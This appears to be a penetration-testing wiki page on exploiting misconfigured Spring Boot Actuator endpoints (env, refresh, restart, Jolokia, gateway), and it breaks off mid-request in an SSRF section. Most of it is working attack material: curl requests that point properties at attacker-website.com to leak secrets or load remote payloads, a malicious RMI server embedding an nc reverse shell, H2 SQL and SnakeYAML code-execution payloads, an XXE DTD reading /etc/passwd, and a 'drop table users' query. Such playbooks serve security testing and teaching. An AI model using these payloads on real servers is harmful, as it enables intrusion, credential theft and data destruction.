 # Spring Boot Actuators

## Theory

The Spring Boot Framework includes a number of features called actuators to help you monitor and manage your web application when you push it to production. Intended to be used for auditing, health, and metrics gathering, they can also open a hidden door to your server when misconfigured.

The following Actuator endpoints could potentially have security implications leading to possible vulnerabilities:

* /dump - displays a dump of threads (including a stack trace)
* /trace - displays the last several HTTP messages (which could include session identifiers)
* /logfile - outputs the contents of the log file
* /shutdown - shuts the application down
* /mappings - shows all of the MVC controller mappings
* /env - provides access to the configuration environment
* /actuator/env
* /restart - restarts the application
* /heapdump - Builds and returns a heap dump from the JVM used by our application

{% hint style="danger" %}
For Spring 1x, they are registered under the root URL, and in 2x they moved to the "/actuator/" base path.
{% endhint %}

## Practice

{% tabs %}
{% tab title="Enumerate" %}
We may use the [spring-boot.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt) wordlist from SecList to fuzz actuators URLs

```bash
feroxbuster -u http://<TARGET>/ -w /usr/share/seclists/Discovery/Web-Content/spring-boot.txt
```
{% endtab %}
{% endtabs %}

### Env

[env](https://docs.spring.io/spring-boot/docs/2.4.0/actuator-api/htmlsingle/#env) exposes properties from Spring's `ConfigurableEnvironment`. Exposition of this endpoint can lead to RCE or sensitive information leaks.&#x20;

{% hint style="danger" %}
Spring Boot 2.x uses `json` instead of `x-www-form-urlencoded` for property change requests via the `env` endpoint
{% endhint %}

{% hint style="danger" %}
Information returned by the `env` and `configprops` endpoints can be somewhat sensitive so keys matching a certain pattern are [sanitized](https://docs.spring.io/spring-boot/docs/2.0.x/reference/html/howto-actuator.html#howto-sanitize-sensible-values) (replaced by `*`) by default. However, below you can find several ways to retrieve these values
{% endhint %}

<details>

<summary>eureka.client.serviceUrl.defaultZone</summary>

Exploiting`eureka.client.serviceUrl.defaultZone` requires the following conditions:

* `/refresh` endpoint is available
* An application uses `spring-cloud-starter-netflix-eureka-client` dependency

#### Retrieving env properties

You can get `env` property value in plaintext by first setting the `eureka.client.serviceUrl.defaultZone` to the following values

```bash
POST /actuator/env HTTP/1.1
Content-Type: application/json

{
    "name": "eureka.client.serviceUrl.defaultZone",
    "value": "http://value:${your.property.name}@attacker-website.com/"
}

#Or curl command
curl -X POST -H "Content-Type: application/json" -d '{"name": "eureka.client.serviceUrl.defaultZone","value": "http://value:${your.property.name}@attacker-website.com/"}' http://<TARGET>/actuator/env
```

Then, refresh the configuration

```bash
POST /actuator/refresh HTTP/1.1
Content-Type: application/json

#Or curl command
curl -X POST -H "Content-Type: application/json" http://<TARGET>/actuator/refresh
```

#### XStream deserialization RCE

It requires `Eureka-Client` version `< 1.8.7`.

You can gain RCE by first setting up a website that responds with a malicious XStream payload using [springboot-xstream-rce.py](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/springboot-xstream-rce.py)

```bash
python springboot-xstream-rce.py
```

Then, set the `eureka.client.serviceUrl.defaultZone` property:

```bash
POST /actuator/env HTTP/1.1
Content-Type: application/json

{
    "name": "eureka.client.serviceUrl.defaultZone",
    "value": "http://attacker-website.com/payload"
}

#Or curl command
curl -X POST -H "Content-Type: application/json" -d '{"name": "eureka.client.serviceUrl.defaultZone","value": "http://attacker-website.com/payload"}' http://<TARGET>/actuator/env
```

Then, refresh the configuration, the code will be executed.

```bash
POST /actuator/refresh HTTP/1.1
Content-Type: application/json

#Or curl command
curl -X POST -H "Content-Type: application/json" http://<TARGET>/actuator/refresh
```

</details>

<details>

<summary>logging.config</summary>

Exploiting `logging.config` requires `/restart` to be available.

#### Logback JDNI RCE

`ogging.config` can lead to RCE via Logback JNDI, Check [reloadByURL - RCE](spring-boot-actuators.md#reloadbyurl-rce) for the full process of hosting LDAP/RMI rogue server. The exploit is similar.

First, open a simple HTTP server on the machine you control

```bash
python3 -m http.server 80
```

And host the logback configuration at `http://attacker-website.com/logback.xml`:  with the following content:

```markup
<configuration>
  <insertFromJNDI env-entry-name="rmi://attacker-website.com:1097/jndi" as="appName" />
</configuration>
```

Then the next step is to create a malicious RMI service:

```java
import java.rmi.registry.*;
import com.sun.jndi.rmi.registry.*;
import javax.naming.*;
import org.apache.naming.ResourceRef;
 
public class EvilRMIServer {
    public static void main(String[] args) throws Exception {
        System.out.println("Creating evil RMI registry on port 1097");
        Registry registry = LocateRegistry.createRegistry(1097);
 
        //prepare payload that exploits unsafe reflection in org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        //redefine a setter name for the 'x' property from 'setX' to 'eval', see BeanFactory.getObjectInstance code
        ref.add(new StringRefAddr("forceString", "x=eval"));
        //expression language to execute 'nslookup jndi.s.artsploit.com', modify /bin/sh to cmd.exe if you target windows
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 1234 >/tmp/f']).start()\")"));
 
        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("jndi", referenceWrapper);
    }
}
```

pom.xml to compile this project:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.springframework</groupId>
    <artifactId>RMIServer</artifactId>
    <version>0.0.1</version>

    <parent>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-parent</artifactId>
        <version>2.0.0.RELEASE</version>
    </parent>

    <dependencies>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-web</artifactId>
        </dependency>
    </dependencies>

    <properties>
        <java.version>1.8</java.version>
    </properties>

</project>
```

Run the compiled jar

```bash
java -jar RMIServer-0.1.0.jar
```

Set `logging.config` properties:

```bash
POST /actuator/env HTTP/1.1
Content-Type: application/json

{
    "name": "logging.config",
    "value": "http://attacker-website.com/logback.xml"
}

#Or curl command
curl -X POST -H "Content-Type: application/json" -d '{"name": "logging.config","value":"http://attacker-website.com/logback.xml"}' http://<TARGET>/actuator/env
```

Restart the application:

```bash
POST /actuator/restart HTTP/1.1
Content-Type: application/json

#Or curl command
curl -X POST -H "Content-Type: application/json" http://<TARGET>/actuator/restart
```

#### Groovy RCE

First, host the `payload.groovy` file with the following content:

```bash
Runtime.getRuntime().exec("open -a Calculator")
```

Set logging.config:

```bash
POST /actuator/env HTTP/1.1
Content-Type: application/json

{
    "name": "logging.config",
    "value": "http://attacker-website.com/payload.groovy"
}

#Or curl command
curl -X POST -H "Content-Type: application/json" -d '{"name":"logging.config","value":"http://attacker-website.com/payload.groovy"}' http://<TARGET>/actuator/env
```

Restart the application:

```bash
POST /actuator/restart HTTP/1.1
Content-Type: application/json

#Or curl command
curl -X POST -H "Content-Type: application/json" http://<TARGET>/actuator/restart
```

</details>

<details>

<summary>spring.main.sources</summary>

Exploiting `spring.main.sources` requires`/restart` to be available.

#### Groovy RCE

First, host the `payload.groovy` file with the following content:

```bash
Runtime.getRuntime().exec("open -a Calculator")
```

Set `logging.config`:

```bash
POST /actuator/env HTTP/1.1
Content-Type: application/json

{
    "name": "spring.main.sources",
    "value": "http://attacker-website.com/payload.groovy"
}

#Or curl command
curl -X POST -H "Content-Type: application/json" -d '{"name":"spring.main.sources","value":"http://attacker-website.com/payload.groovy"}' http://<TARGET>/actuator/env
```

Restart the application:

```bash
POST /actuator/restart HTTP/1.1
Content-Type: application/json

#Or curl command
curl -X POST -H "Content-Type: application/json" http://<TARGET>/actuator/restart
```

</details>

<details>

<summary>spring.datasource.tomcat</summary>

#### validationQuery

`spring.datasource.tomcat.validationQuery` allows specifying any SQL query, that will be automatically executed against the current database. It could be any statement, including insert, update, or delete.

```bash
POST /actuator/env HTTP/1.1
Content-Type: application/json

{
    "name": "spring.datasource.tomcat.validationQuery",
    "value": "drop+table+users"
}

#Or curl command
curl -X POST -H "Content-Type: application/json" -d '{"name":"spring.datasource.tomcat.validationQuery","value":"drop table users"}' http://<TARGET>/actuator/env
```

#### url

`spring.datasource.tomcat.url` allows modifying the current JDBC connection string.

The problem here is that when the application establishing the connection to the database is already running, just updating the JDBC string has no effect. But you can try using `spring.datasource.tomcat.max-active` to increase the number of simultaneous database connections.

Thus, you can change the JDBC connection string, increase the number of connections, and then send many requests to the application to simulate a heavy load. Under load, the application will create a new database connection with an updated malicious JDBC string.

```bash
curl -X POST -H "Content-Type: application/json" -d '{"name":"spring.datasource.tomcat.url","value":"jdbc:mysql://ATTACKING-IP:3001/testx1"}' http://<TARGET>/actuator/env
curl -X POST -H "Content-Type: application/json" -d '{"name":"spring.datasource.tomcat.max-active","value":"5"}' http://<TARGET>/actuator/env
```

</details>

<details>

<summary>spring.datasource</summary>

#### data

`spring.datasource.data` can be used to gain RCE if the following coditions are met:

* `/restart` is available
* `h2database` and `spring-boot-starter-data-jpa` dependencies are used

In order to exploit this endpoint, start a simple HTTP server on the machine you control

```bash
python3 -m http.server 80
```

And then, host the following `payload.sql` file

```sql
CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('/bin/bash','-c','open -a Calculator');
```

Note that te `T5` method in the payload must be renamed (to `T6`) after the command is executed before it can be recreated and used. Otherwise, the vulnerability will not trigger the next time an application is restarted.

Then, set the `spring.datasource.data`:

```bash
POST /actuator/env HTTP/1.1
Content-Type: application/json

{
    "name": "spring.datasource.data",
    "value": "http://attacker-website.com/payload.sql"
}

#Or curl command
curl -X POST -H "Content-Type: application/json" -d '{"name":"spring.datasource.data","value":"http://attacker-website.com/payload.sql"}' http://<TARGET>/actuator/env
```

Restart the application:

```bash
POST /actuator/restart HTTP/1.1
Content-Type: application/json

#Or curl command
curl -X POST -H "Content-Type: application/json" http://<TARGET>/actuator/restart
```

#### url

`spring.datasource.url` is database connection string that is used only for the first connection. You can chain it with JDBC [**deserialization**](../../../web-vulnerabilities/server-side/deserialization/) vulnerability in MySQL to gain RCE. The vulnerability requires the following conditions:

* `/refresh` is available
* `mysql-connector-java` dependency is used

Note that changing `spring.datasource.url` will temporarily disable all normal database services

To exploit, use the `/actuator/env` endpoint to fetch the next values:

* `mysql-connector-java` version number (5.x or 8.x)
* Common deserialization gadgets, such as `commons-collections`
* `spring.datasource.url` value to facilitate later crafting of its normal JDBC URL

Create a payload with [ysoserial](https://github.com/frohoff/ysoserial)

```bash
java -jar ysoserial.jar CommonsCollections3 calc > payload.ser
```

Use [springboot-jdbc-deserialization-rce.py](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/springboot-jdbc-deserialization-rce.py) to host `payload.ser`

Set the `spring.datasource.url` property:\
`mysql-connector-java` version 5.x:

```bash
POST /actuator/env HTTP/1.1
Content-Type: application/json

{
    "name": "spring.datasource.url",
    "value":"jdbc:mysql://your-vps-ip:3306/mysql?characterEncoding=utf8&useSSL=false&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true"
}

#Or curl command
curl -X POST -H "Content-Type: application/json" -d '{"name":"spring.datasource.url","value":"jdbc:mysql://your-vps-ip:3306/mysql?characterEncoding=utf8&useSSL=false&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true"}' http://<TARGET>/actuator/env
```

`mysql-connector-java` version 8.x:

```bash
POST /actuator/env HTTP/1.1
Content-Type: application/json

{
    "name": "spring.datasource.url",
    "value":"jdbc:mysql://your-vps-ip:3306/mysql?characterEncoding=utf8&useSSL=false&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true"
}

#Or curl command
curl -X POST -H "Content-Type: application/json" -d '{"name":"spring.datasource.url","value":"jdbc:mysql://your-vps-ip:3306/mysql?characterEncoding=utf8&useSSL=false&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true"}' http://<TARGET>/actuator/env
```

Refresh the configuration:

```bash
POST /actuator/refresh HTTP/1.1
Content-Type: application/json

#Or curl command
curl -X POST -H "Content-Type: application/json" http://<TARGET>/actuator/refresh
```

Finally, try to access an endpoint that will trigger a database query, for example `/product/list`, or find other ways to query the database and trigger the vulnerability

</details>

<details>

<summary>spring.cloud.bootstrap.location</summary>

Exploiting `spring.cloud.bootstrap.location` requires the following conditions:

* `/refresh` endpoint is available
* `spring-cloud-starter` version `< 1.3.0.RELEASE`

#### Retrieving env properties

You can get `env` property value in plaintext by starting a webserver and setting the `spring.cloud.bootstrap.location` property as follow:

```bash
POST /actuator/env HTTP/1.1
Content-Type: application/json

{
    "name": "spring.cloud.bootstrap.location",
    "value": "http://attacker-website.com/?=${your.property.name}"
}

#Or curl command
curl -X POST -H "Content-Type: application/json" -d '{"name":"spring.cloud.bootstrap.location","value":"http://attacker-website.com/?=${your.property.name}"}' http://<TARGET>/actuator/env
```

Refresh the configuration:

```bash
POST /actuator/refresh HTTP/1.1
Content-Type: application/json

#Or curl command
curl -X POST -H "Content-Type: application/json" http://<TARGET>/actuator/refresh
```

Retrive the property value from `attacker-website.com` logs

#### SnakeYML RCE

`spring.cloud.bootstrap.location` allows loading an external config in YAML format. You can gain code execution with the next steps:

Host `config.yml` at `http://attacker-website.com/config.yml` with the following content:

```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://attacker-website.com/payload.jar"]
  ]]
]
```

Host `payload.jar` with the code that will be executed, check [marshalsec](https://github.com/mbechler/marshalsec) and [yaml-payload](https://github.com/artsploit/yaml-payload) for how to prepare the payload

Set the `spring.cloud.bootstrap.location` property:

```bash
POST /actuator/env HTTP/1.1
Content-Type: application/json

{
    "name": "spring.cloud.bootstrap.location",
    "value": "http://attacker-website.com/yaml-payload.yml"
}

#Or curl command
curl -X POST -H "Content-Type: application/json" -d '{"name":"spring.cloud.bootstrap.location","value":"http://attacker-website.com/yaml-payload.yml"}' http://<TARGET>/actuator/env
```

Refresh the configuration and code will be executed:

```bash
POST /actuator/refresh HTTP/1.1
Content-Type: application/json

#Or curl command
curl -X POST -H "Content-Type: application/json" http://<TARGET>/actuator/refresh
```

</details>

<details>

<summary>spring.datasource.hikari.connection-test-query</summary>

`spring.datasource.hikari.connection-test-query` sets a query that will be executed before granting a connection from a pool. It can lead to RCE if the following conditions are met:

* `/restart` endpoint is available
* `com.h2database.h2` dependency is used

You can gain code execution by setting the `spring.datasource.hikari.connection-test-query` property

```bash
POST /actuator/env HTTP/1.1
Content-Type: application/json

{
    "name": "spring.datasource.hikari.connection-test-query",
    "value": "CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('cmd','/c','calc');"
}

#Or curl command
curl -X POST -H "Content-Type: application/json" -d "{\"name\":\"spring.datasource.hikari.connection-test-query\",\"value\":\"CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('cmd','/c','calc');\"}" http://<TARGET>/actuator/env
```

The `T5` method in the payload must be renamed (to `T6`) after the command is executed before it can be recreated and used. Otherwise, the vulnerability will not trigger the next time an application is restarted.

Restart the application:

```bash
POST /actuator/restart HTTP/1.1
Content-Type: application/json

#Or curl command
curl -X POST -H "Content-Type: application/json" http://<TARGET>/actuator/restart
```

</details>

### Jolokia

If the Jolokia Library is in the target application classpath, it is automatically exposed by Spring Boot under the `/jolokia` actuator endpoint. Jolokia allows HTTP access to all registered MBeans and is designed to perform the same operations you can perform with JMX. It is possible to list all available **MBeans actions** using the URL:

```bash
http://<TARGET>/jolokia/list
http://<TARGET>/actuator/jolokia/list
```

<details>

<summary>Extract env properties</summary>

You can invoke relevant MBeans to retrive `env` property values in plaintext. Below you can find MBeans that can be used for this purpose. However, the situation may differ and the Mbeans listed may not be available. However, you can search methods that can be called by keywords like `getProperty`.

#### org.springframework.boot

You can get `env` property value in plaintext using the following request:

```bash
POST /actuator/jolokia HTTP/1.1
Content-Type: application/json

{
    "mbean": "org.springframework.boot:name=SpringApplication,type=Admin",
    "operation": "getProperty",
    "type": "EXEC",
    "arguments": [
        "your.property.name"
    ]
}

#Or curl command
curl -X POST -H "Content-Type: application/json" -d '{"mbean":"org.springframework.boot:name=SpringApplication,type=Admin","operation":"getProperty","type":"EXEC","arguments":["your.property.name"]}' http://<TARGET>/actuator/jolokia
```

#### org.springframework.cloud.context.environment

You can get `env` property value in plaintext using the following request:

```bash
POST /actuator/jolokia HTTP/1.1
Content-Type: application/json

{
    "mbean": "org.springframework.cloud.context.environment:name=environmentManager,type=EnvironmentManager",
    "operation": "getProperty",
    "type": "EXEC",
    "arguments": [
        "your.property.name"
    ]
}

#Or curl command
curl -X POST -H "Content-Type: application/json" -d '{"mbean":"org.springframework.cloud.context.environment:name=environmentManager,type=EnvironmentManager","operation":"getProperty","type":"EXEC","arguments":["your.property.name"]}' http://<TARGET>/actuator/jolokia
```

</details>

<details>

<summary>reloadByURL - XXE</summary>

The `reloadByURL` action, provided by the Logback library, allows us to reload the logging **XML config file** from an external URL

If the action `reloadByURL` exists, the logging configuration can be reload from an external URL. You can exploit this feature to trigger an Out-Of-Band XXE.

Host the logback.xml configuration and file.dtd at `http://attacker-website.com/`:

```xml
# file logback.xml from the server attacker-website
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE a [ <!ENTITY % remote SYSTEM "http://attacker-website/file.dtd">%remote;%int;]>
<a>&trick;</a>
```

```xml
# file file.dtd from the server attacker-website
<!ENTITY % d SYSTEM "file:///etc/passwd"> 
<!ENTITY % int "<!ENTITY trick SYSTEM ':%d;'>">
```

the logging configuration can be reload from our server by requesting following URL:

```bash
curl http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/attacker-website.com!/logback.xml
```

</details>

<details>

<summary>reloadByURL - RCE</summary>

The `reloadByURL` action, provided by the Logback library, allows us to reload the logging **XML config file** from an external URL

In the XML file, we can include a tag like `<insertFromJNDI env-entry-name="java:comp/env/appName" as="appName" />` and the name attribute will be passed to the DirContext.lookup() method. If we can supply an arbitrary name into the .lookup() function, we don't even need XXE or HeapDump because it gives us a full **Remote Code Execution**.

#### JDK > 1.8.0\_191

Open a simple HTTP server on the machine you control

```bash
python3 -m http.server 80
```

And host the logback configuration at `http://attacker-website.com/logback.xml`:

```xml
# file logback.xml from the server attacker-website
<configuration>
  <insertFromJNDI env-entry-name="rmi://attacker-website.com:1097/jndi" as="appName" />
</configuration>
```

Then the next step is to create a malicious RMI service:

```java
import java.rmi.registry.*;
import com.sun.jndi.rmi.registry.*;
import javax.naming.*;
import org.apache.naming.ResourceRef;
 
public class EvilRMIServer {
    public static void main(String[] args) throws Exception {
        System.out.println("Creating evil RMI registry on port 1097");
        Registry registry = LocateRegistry.createRegistry(1097);
 
        //prepare payload that exploits unsafe reflection in org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        //redefine a setter name for the 'x' property from 'setX' to 'eval', see BeanFactory.getObjectInstance code
        ref.add(new StringRefAddr("forceString", "x=eval"));
        //expression language to execute 'nslookup jndi.s.artsploit.com', modify /bin/sh to cmd.exe if you target windows
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 1234 >/tmp/f']).start()\")"));
 
        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("jndi", referenceWrapper);
    }
}
```

pom.xml to compile this project:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.springframework</groupId>
    <artifactId>RMIServer</artifactId>
    <version>0.0.1</version>

    <parent>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-parent</artifactId>
        <version>2.0.0.RELEASE</version>
    </parent>

    <dependencies>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-web</artifactId>
        </dependency>
    </dependencies>

    <properties>
        <java.version>1.8</java.version>
    </properties>

</project>
```

Run the compiled jar

```bash
java -jar RMIServer-0.1.0.jar
```

The logging configuration can be reload from our server by requesting following URL:

```bash
curl http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/attacker-website.com!/logback.xml
```

#### JDK < 1.8.0\_191

Open a simple HTTP server on the machine you control

```bash
python3 -m http.server 80
```

and host the logback configuration at `http://attacker-website.com/logback.xml`:

```xml
# file logback.xml from the server attacker-website
<configuration>
    <insertFromJNDI env-entry-name="ldap://attacker-website.com:1389/JNDIObject" as="appName" />
</configuration>
```

Prepare a Java code for execution, you can reuse the [JNDIObject.java](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/JNDIObject.java). Compile it such a way that it is compatible with earlier JDK versions:

```bash
# Compile it 
javac -source 1.5 -target 1.5 JNDIObject.java
```

Then copy the generated `JNDIObject.class`file to the root directory of the `http://attacker-website.com` website**.**

Set up LDAP server, use [marshalsec](https://github-com.translate.goog/mbechler/marshalsec?\_x\_tr\_sl=auto&\_x\_tr\_tl=en&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp) to set up the server:

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://attacker-website.com:80/#JNDIObject 1389
```

The logging configuration can be reload from our server by requesting following URL:

```bash
curl http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/attacker-website.com!/logback.xml
```

If an application successfully requests `logback.xml` and `marshalsec` receives the target request, but an application does not request `JNDIObject.class`, it is likely that an application's JDK version is too high, causing JNDI usage to fail.

</details>

<details>

<summary>createJNDIRealm - RCE</summary>

One of the MBeans of Tomcat (embedded into Spring Boot) is `createJNDIRealm`. `createJNDIRealm` allows creating JNDIRealm that is vulnerable to JNDI injection. You can expoit with the next steps:

Get the `/jolokia/list` or `/actuator/jolokia/list` to check if `type=MBeanFactoryand` and `createJNDIRealm` are in place

```bash
curl https://<TARGET>/actuator/jolokia/list | grep 'createJNDIRealm'
```

#### JDK > 1.8.0\_191

Open a simple HTTP server on the machine you control

```bash
python3 -m http.server 80
```

Then the next step is to create a malicious RMI service:

```java
import java.rmi.registry.*;
import com.sun.jndi.rmi.registry.*;
import javax.naming.*;
import org.apache.naming.ResourceRef;
 
public class EvilRMIServer {
    public static void main(String[] args) throws Exception {
        System.out.println("Creating evil RMI registry on port 1097");
        Registry registry = LocateRegistry.createRegistry(1097);
 
        //prepare payload that exploits unsafe reflection in org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        //redefine a setter name for the 'x' property from 'setX' to 'eval', see BeanFactory.getObjectInstance code
        ref.add(new StringRefAddr("forceString", "x=eval"));
        //expression language to execute 'nslookup jndi.s.artsploit.com', modify /bin/sh to cmd.exe if you target windows
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 1234 >/tmp/f']).start()\")"));
 
        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("jndi", referenceWrapper);
    }
}
```

pom.xml to compile this project:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.springframework</groupId>
    <artifactId>RMIServer</artifactId>
    <version>0.0.1</version>

    <parent>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-parent</artifactId>
        <version>2.0.0.RELEASE</version>
    </parent>

    <dependencies>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-web</artifactId>
        </dependency>
    </dependencies>

    <properties>
        <java.version>1.8</java.version>
    </properties>

</project>
```

Run the compiled jar

```bash
java -jar RMIServer-0.1.0.jar
```

Modify the target address, RMI address, port and other information in the [springboot-realm-jndi-rce.py](https://translate.google.com/website?sl=auto\&tl=en\&hl=en\&client=webapp\&u=https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/springboot-realm-jndi-rce.py) script according to the actual situation , and then run it on the server you control.

```bash
#Start listener
nc -lvnp 443

#Exploit (JNDIObject = jndi)
python springboot-realm-jndi-rce.py
```

#### JDK < 1.8.0\_191

Open a simple HTTP server on the machine you control

```bash
python3 -m http.server 80
```

Prepare a Java code for execution, you can reuse the [JNDIObject.java](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/JNDIObject.java). Compile it such a way that it is compatible with earlier JDK versions:

```bash
# Compile it 
javac -source 1.5 -target 1.5 JNDIObject.java
```

Then copy the generated `JNDIObject.class`file to the root directory of the `http://attacker-website.com` website**.**

Set up RMI server, use [marshalsec](https://github-com.translate.goog/mbechler/marshalsec?\_x\_tr\_sl=auto&\_x\_tr\_tl=en&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp) to set up the server:

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://attacker-website.com:80/#JNDIObject 1389
```

The we wan send the payload by editing the target address, RMI address, port and other information in the [springboot-realm-jndi-rce.py](https://translate.google.com/website?sl=auto\&tl=en\&hl=en\&client=webapp\&u=https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/springboot-realm-jndi-rce.py) script according to the actual situation , and then run it on the server you control.

```bash
#Start listener
nc -lvnp 443

#Exploit
python springboot-realm-jndi-rce.py
```

</details>

### gateway

The [gateway](https://cloud.spring.io/spring-cloud-gateway/reference/html/#actuator-api) actuator endpoint lets you monitor and interact with a Spring Cloud Gateway application. In other words, you can define routes for the application and use `gateway` actuator to trigger requests according to these routes.

Routes can provide access to hidden or internal endpoints, which can be misconfigured or vulnerable. You can fetch all available routes via `GET`-request to `/actuator/gateway/routes`.

<details>

<summary>SSRF</summary>

If [adding routes](https://cloud.spring.io/spring-cloud-gateway/reference/html/#creating-and-deleting-a-particular-route) do not require administrative permissions. The next request will create a route to localhost:

```http
POST /actuator/gateway/routes/new_route HTTP/1.1
Content-Type: application/json

{
"predicates": [
    {
    "name": "Path",
    "args": {
        "_genkey_0": "/new_route/**"
    }
    }
],
"filters": [
    {
    "name": "RewritePath",
    "args": {
        "_genkey_0": "/new_route(?<path>.*)",
        "_genkey_1": "/${path}"
    }
    }
],
"uri": "https://localhost",
"order": 0
}
```

Send refresh request to apply new route:

```http
POST /actuator/gateway/refresh HTTP/1.1
Content-Type: application/json

{
    "predicate": "Paths: [/new_route], match trailing slash: true",
